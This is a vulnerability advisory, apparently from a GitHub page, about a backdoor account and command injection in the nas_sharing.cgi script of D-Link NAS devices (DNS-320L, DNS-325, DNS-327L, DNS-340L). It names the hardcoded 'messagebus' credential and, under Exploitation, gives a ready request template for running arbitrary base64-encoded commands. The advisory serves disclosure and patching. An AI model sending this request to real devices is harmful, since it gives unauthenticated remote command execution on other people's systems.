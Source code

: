# Command Injection and Backdoor Account in D-Link NAS Devices

## **Vulnerability Summary:**

The described vulnerability affects multiple D-Link NAS devices, including models DNS-340L, DNS-320L, DNS-327L, and DNS-325, among others. The vulnerability lies within the **`nas_sharing.cgi`** uri, which is vulnerable due to two main issues: a backdoor facilitated by hardcoded credentials, and a command injection vulnerability via the **`system`** parameter. This exploitation could lead to arbitrary command execution on the affected D-Link NAS devices, granting attackers potential access to sensitive information, system configuration alteration, or denial of service, by specifying a command,affecting over 92,000 devices on the Internet.

![Untitled](fofa-result.png)

## Corresponding CWE

CWE-77 (Command Injection) and CWE-798 (Use of Hard-coded Credentials).

## Affected Devices:

- DNS-320L Version 1.11, Version 1.03.0904.2013, Version 1.01.0702.2013
- DNS-325 Version 1.01
- DNS-327L Version 1.09, Version 1.00.0409.2013
- DNS-340L Version 1.08

## Vulnerability Details:

The vulnerability exists in the `nas_sharing.cgi` CGI script, which leads to:

1. **Backdoor through Username and Password Exposure**: The request includes parameters for a username (**`user=messagebus`**) and an empty password field (**`passwd=`**). This indicates a backdoor allowing unauthorized access without proper authentication.
2. **Command Injection through the System Parameter**: The **`system`** parameter within the request carries a base64 encoded value that, when decoded, appears to be a command.

## Exploitation:

Craft Malicious HTTP Request: Prepare an HTTP GET request targeting the `/cgi-bin/nas_sharing.cgi` endpoint.

```
GET /cgi-bin/nas_sharing.cgi?user=messagebus&passwd=&cmd=15&system=<BASE64_ENCODED_COMMAND_TO_BE_EXECUTED>
```

## **Actual Result**

![Untitled](dns-320.jpg)

## Impact:

Successful exploitation of this vulnerability could allow an attacker to execute arbitrary commands on the system, potentially leading to unauthorized access to sensitive information, modification of system configurations, or denial of service conditions.

## **Fix Recommendation:**

- Apply available patches and updates from the device manufacturer.
